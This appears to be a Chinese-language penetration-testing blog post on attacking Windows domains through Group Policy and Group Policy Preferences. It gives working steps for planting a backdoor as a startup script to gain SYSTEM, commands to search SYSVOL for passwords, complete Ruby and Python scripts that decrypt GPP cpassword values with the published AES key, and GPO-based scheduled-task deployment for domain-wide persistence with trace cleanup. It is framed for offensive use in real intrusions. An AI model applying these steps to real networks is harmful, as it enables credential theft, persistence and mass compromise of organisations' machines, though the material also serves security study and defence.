内网渗透 | 浅谈域渗透中的组策略及gpp运用
0x00 前言
最近在实战过程中遇到了组策略，发现攻击面其实挺宽广的，这里记录下自己的分析和学习过程。
0x01 组策略的认识
组策略（英语：Group Policy）是微软Windows NT家族操作系统的一个特性，它可以控制用户帐户和计算机帐户的工作环境。组策略提供了操作系统、应用程序和活动目录中用户设置的集中化管理和配置。组策略的其中一个版本名为本地组策略（缩写“LGPO”或“LocalGPO”），这可以在独立且非域的计算机上管理组策略对象。
通过使用组策略，你可以设置策略设置一次，然后将该设置复制到多台计算机上。例如，你可以在链接到域的 GPO 中设置多个 Internet Explorer11 安全设置，然后将所有这些设置应用到域中的每台计算机。
根据作用范围不同组策略可划分为多种，并且拥有自己的执行顺序和继承原则。
0x1.1 密码的难题
每台Windows主机有一个内置的Administrator账户以及相关联的密码。大多数组织机构为了安全，可能都会要求更改密码，虽然这种方法的效果并不尽如人意。标准的做法是利用组策略去批量设置工作站的本地Administrator密码。但是这样又会出现另一个问题，那就是所有的电脑都会有相同的本地Administrator密码。也就是说，如果获取了一个系统的Administrator认证凭据，黑客就可以获取他们所有机器的管理权限。
0x1.2 SYSVOL
解决办法之一是为认证数据采取SYSVOL，SYSVOL是AD（活动目录）里面一个存储域公共文件服务器副本的共享文件夹，所有的认证用户都可以读取。SYSVOL包括登录脚本，组策略数据，以及其他域控所需要的域数据，这是因为SYSVOL能在所有域控里进行自动同步和共享。
所有的域组策略存储在：
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
0x1.3 SYSVOL里的认证
在windows电脑中，管理需要花心思去保证本地Administrator账户（RID 500）。传统的做法（除了购买安全产品），是使用一个自定义的脚本去更改本地Administrator的密码。这样就会出现一个问题，密码肯定会明文存储在SYSVOL的脚本里(比如vbs文件)。比如黑客需要搜寻用来更改本地Administrator密码的VBS脚本，该vbs脚本在Microsoft TechNet gallery上，密码为可见的。这个脚本存在SYSVOL里，每个域用户都有读的权限，且该密码是每台电脑组策略应用的本地Administrator密码。
0x1.4 组策略偏好GPP
在2006年，微软收购了桌面标准的“PolicyMaker”，并重新借此与win2008发布了GPP（组策略偏好）。其中GPP最有用的特性，是在某些场景存储和使用凭据，其中包括：
映射驱动（Drives.xml）
创建本地用户
数据源（DataSources.xml）
打印机配置（Printers.xml）
创建/更新服务（Services.xml）
计划任务（ScheduledTasks.xml）
更改本地Administrator密码
这对管理员非常有用，因为GPP提供了一个自动化机制，可以作为急需的解决方案（比如脚本）给他们。它提供了有效的方法，利用显式凭据结合组策略部署了计划任务，一次性批量更改了电脑的本地管理的密码，也许这就是最受欢迎的利用场景吧。
0x1.5 GPP中存储的凭据
然而现在有个问题，凭据数据应该怎样保护？
当管理创建了一个新的GPP时，SYSVOL里有一个XML文件提供了相关配置数据。如果里面提供了密码的话，那应该就是AES-256加密，看起来这加密似乎是够强力了。

然而除了在2012年前的某些点外，微软在MSDN上发布了AES的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对SYSVOL拥有读权限。在域里的任何用户可以搜索SYSVOL共享中的带有cpassword字样的XML文件，里面包含了AES加密的密码。

0x02 组策略的分类
0x2.1 本地组策略（LGP）
本地组策略（Local Group Policy，缩写LGP或LocalGPO）是组策略的基础版本，它面向独立且非域的计算机。至少Windows XP家庭版中它就已经存在，并且可以应用到域计算机。在Windows Vista以前，LGP可以强制施行组策略对象到单台本地计算机，但不能将策略应用到用户或组。从Windows Vista开始，LGP允许本地组策略管理单个用户和组，并允许使用“GPO Packs”在独立计算机之间备份、导入和导出组策略——组策略容器包含导入策略到目标计算机的所需文件。
这里演示下利用本地组策略来加载我们的后门程序
这里我直接用CS生成一个window的后门shell.exe
开始->运行->键入"gpedit.msc"->本地组策略编辑器->window设置(system)->脚本->启动->属性

点击显示文件:
C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup把我们的后门程序复制到这个路径,然后这个脚本开机就会自动加载执行了


当我们重新启动的时候，发现直接以system权限加载了我们的程序

用ps1脚本上线同理，也是拿到了一个system权限




0x2.2 域组策略
当机器安装了域环境的时候,系统管理工具会多出一个功能(组策略管理),通过它，域管理员能够很方便统一地对域内的机器和用户进行统一管理。
域管理员经常会面对一个这样的问题,域成员机子的默认本地管理员密码过于简单，想进行批量修改的时候，这个时候就可以利用组策略来进行任务的批量下发。
1.通过在域中下发脚本来执行
2.在组策略首选项GPP中进行设置
3.本地管理员密码解决方案:LAPS(不细说这个内容，这是解决这个问题很好的方案)
首先我们需要了解下AD域中两个默认的共享文件夹:SYSVOL NETLOGON

NETLOGON目录
挂载点:SYSVOL\domain\SCRIPTS 主要存放的是一些脚本信息，是AD活动目录安装时候自动创建的，是在sysvol下面的一个子目录文件夹
SYSVOL目录
SYSVOL目录是AD域中的一个共享文件夹，该文件夹在AD活动目录安装时候被创建。通常用来存放组策略数据 和 一些脚本 配置文件，这些策略和脚本将用于传递给域成员机器。
此外，域控机器之间因为要自动同步域数据，SYSVOL文档允许该域内的所有DC机之间进行复制，并且所有的AD用户都可以访问它
在域中，用户登录（计算机）时，会首先在SYSVOL文件查找GPO和启动脚本。同时，为了保证系统的正常运行，必须为SYSVOL保留足够的空间缓存，而且不能随意删除、改动该文件夹，要不然会出现一些组策略无法启用等报错信息
该目录由于针对的是域内所有机器和用户，所以域内中的合法用户均可以访问和执行该目录的文件。(普通的域用户也可以)


如果更改权限，这个地方会显示拒绝访问
GPO
组策略对象，GPO（Group Policy Object），实际上就是组策略设置的集合。
你可以用GPO来存储不同的组策略信息，然后作用在指定OU或者指定作用范围发挥作用。
默认安装完AD之后，系统默认会存在两个组策略对象
Default Domain Policy
唯一ID(GUID):{31B2F340-016D-11D2-945F-00C04FB984F9} (都是相同的)
默认域策略
Windows Server 2008 creates a Default Domain Policy GPO for every domain in the forest. This domain is the primary method used to set some security-related policies such as password expiration and account lockout.

存放的路径:
C:\Windows\SYSVOL\sysvol\test1.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
Default Domain Controllers Policy
唯一ID(GUID):｛6AC1786C-016F-11D2-945F- 00C04FB984F9｝ (都是相同的)
默认域控制器策略
管理目标“Domain Controllers”容器，影响“Domain Controllers”容器中的域控制器，域控制器账户单独保存在该容器中。

不难看到这个GPO作用的范围是DC这个OU,相应的执行优先级如下图

GPP
我们可以看到GPP里面自定义了很多操作，比如本地用户和组的密码控制、计划任务等
在GPP出现之前，很多统一管理的操作只能通过脚本来实现，而GPP方便和简化了这样的管理,GPP你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用

0x2.3 域组策略的利用
0x2.3.1 读取脚本中密码
这里我用一个例子来说明,域组策略是怎么加载脚本作用到域内机器的
strComputer = "."Set objUser = GetObject("WinNT://" & strComputer & "/Administrator, user")objUser.SetPassword "123QWEQWE!@#"objUser.SetInfo
这里我们保存这个脚本为cpass.vbs,这个脚本的作用那就是修改本地管理员账户的密码为
123QWEQWE!@#
这里我直接在域策略的GPO下面直接用脚本来下发这个脚本

这里为了演示效果,我们在域用户机器上进行强制更新组策略
gpupdate /force

我们可以在域用户中通过搜索脚本文件比如*.vbs *.bat来找到

搜索SYSVOL的下的脚本命令
shell for /r \\dc/sysvol %i in (*.vbs) do @echo %ishell for /r \\dc/sysvol %i in (*.bat) do @echo %i
0x2.3.2 GPP漏洞的利用
GPP漏洞只在2008没打补丁版本上存在，超过2008版本的系统是没办法写入密码的。
这个漏洞的产生原因是 使用了GPP功能，如果输入了用户的密码的话，那么密码就会以AES 256加密的形式存储在SYSVOL文件夹下的以XML后缀结尾的xml文件中，这个密码的加密密钥由微软官方给出可以进行解密，但是如果打补丁或者高版本的话，GPP服务是不能输入密码的了，这个漏洞也就相应不存在了。


输入密码项是被禁用的
下面我们来演示下怎么在CS下获取到GPP泄露的密码:
这里我们在dc2008新建一个OU组: GPPVuln

然后在该OU上,我们新建个使用了GPP的本地用户密码的策略

获取到该GPO的ID:{A7797762-FD8F-4B74-803E-BAE362BCC905}


然后我们根据该ID去SYSVOL搜索即可得到该目录下的文件
C:\Windows\SYSVOL\sysvol\test1.local\Policies\{A7797762-FD8F-4B74-803E-BAE362BCC905}\Machine\Preferences\Groups

可以看到在该Groups目录下的xml文件立马就可以看到我们设置gpptest用户名对应的加密的密码HtReckysr1Y4zM8/Mwe9TN4Fbi2L8JU3/PvW9NffrA0
这个密码的解密方式有很多种，这里给出最常用的两种：
1.RUBY的一个脚本gppdecrypt.rb
require 'rubygems'require 'openssl'require 'base64'encrypted_data = ARGVdef decrypt(encrypted_data)padding = "=" * (4 - (encrypted_data.length % 4))epassword = "#{encrypted_data}#{padding}"decoded = Base64.decode64(epassword)key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")aes.decryptaes.key = keyplaintext = aes.update(decoded)plaintext << aes.finalpass = plaintext.unpack('v*').pack('C*') # UNICODE conversionreturn passendblah = decrypt(encrypted_data)puts blah
2.Gppprefdecrypt.py
#!/usr/bin/python## Gpprefdecrypt - Decrypt the password of local users added via Windows 2008 Group Policy Preferences.## This tool decrypts the cpassword attribute value embedded in the Groups.xml file stored in the domain controller's Sysvol share.#import sysfrom Crypto.Cipher import AESfrom base64 import b64decode# Init the key# From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29#endNote2key = """4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b""".replace(" ","").replace("\n","").decode('hex')# Add padding to the base64 string and decode itcpassword = "HtReckysr1Y4zM8/Mwe9TN4Fbi2L8JU3/PvW9NffrA0"cpassword += "=" * ((4 - len(cpassword) % 4) % 4)password = b64decode(cpassword)# Decrypt the passwordo = AES.new(key, AES.MODE_CBC, "\x00" * 16).decrypt(password)# Print itprint o[:-ord(o[-1])].decode('utf16')
演示效果如下：

解密如下

我们也要关注该目录下的其他XML文件
Services\Services.xmlScheduledTasks\ScheduledTasks.xmlPrinters\Printers.xmlDrives\Drives.xmlDataSources\DataSources.xml
这里不仅仅是修改本地用户密码这个GPP存在，比如计划任务等需要写入用户密码xml文件都可能存在这个问题
1.命令行下搜索
dir /s /a \\DC\SYSVOL\*.xml2.Get-GPPPassword.ps1的使用
使用powershell-import 导入Get-GPPPassword.ps1
powershell Get-GPPPassword 加载该函数
这个powershell脚本会自动遍历SYSVOL下的敏感文件,并且将密码解密
3.针对性用户查找,这里我们可以使用powerview
这里我们以de1ctf中的wp中的思路自己走一遍那个流程
我们在指定的GPPVuln这个OU中添加个账户

下面我们演示如何在域中根据该用户名称来进行针对性的GPP搜索
简单的信息收集:
1.查看域内共享
powershell get-domaincomputer|get-netshare
2.查看域用户信息
powershell Get-DomainUser -identity gpptest
可以看到该用户属于GPPVuln的OU组

3.查看OU组信息
powershell Get-DomainOU -identity GPPVuln
发现有个GPO的link链接信息，然后我们根据这个GPUD去相应的文件夹进行搜索就可以了

0x2.3.3 后门利用
这个后门的利用的前提是我们已经拿下了域控的权限。
通过GPO我们可以指定控制OU下的所有用户，比如批量下发木马或者进行其他操作。
1.直接的方式
比如简单和暴力的方式,就是直接将我们的木马当成脚本放在域策略或者自己新建个GPO然后在启动|关闭中放入我们的木马,然后将该GPO链接到你想搞的OU下,这样就可以实现定向打击,这种感觉比较明显吧,很容易就可以排查出来了。
2.计划任务实现远程执行
这种方式能够按照时间定时的收集信息，相对来说比较隐蔽。
这里演示下如何使用New-GPOImmediateTask.ps1
1.导入powershell中管理GPO的模块&创建一个作用整个域的GPO
Import-Module GroupPolicy –verbose
2.执行脚本添加计划任务
New-GPOImmediateTask -TaskName Debugging -GPODisplayName TestGPO -SysPath '\\dc\sysvol\test1.local' -CommandArguments '-c "123 | Out-File C:\test\debug.txt"'


3.强制更新组策略，或者默认等待90分组等待组策略强制更新
Invoke-GPUpdate -Computer "TEST\COMPUTER-01"
4.清理痕迹
Remove-GPO -Name TestGPO
0x03 后记
这是我在一个实战域环境内用冰蝎上马后查看gpp共享，但是好像他这个文件夹里面没有放bat

所以并不是每一个域环境内的情况都是一样的，这里只是给师傅们提供个思路
总体来说，共享组策略目录是域中最容易出现密码的地方，一般管理员会把一些bat脚本放在里面用来重置域内客户机器本地的administrator的密码，所以当我们进入内网之后如果遇到横向不动的情况，就可以查看一下gpp，查看共享组策略目录中是否存在密码

推荐阅读：
本月报名可以参加抽奖送暗夜精灵6Pro笔记本电脑的优惠活动

点赞，转发，在看
原创投稿作者：Drunkmars